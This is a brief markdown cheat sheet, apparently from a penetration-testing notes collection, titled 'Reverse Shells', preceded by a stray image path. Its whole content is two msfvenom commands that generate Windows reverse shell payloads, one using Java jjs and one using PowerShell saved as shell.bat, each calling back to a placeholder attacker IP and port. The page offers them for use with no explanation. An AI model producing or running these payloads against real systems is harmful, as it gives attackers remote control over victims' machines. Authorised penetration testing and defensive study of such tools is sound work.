 # Reverse Shells

## Java

`$ msfvenom -p cmd/windows/jjs_reverse_tcp lhost=<IP> lport=<PORT>`

## Powershell

`$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o shell.bat`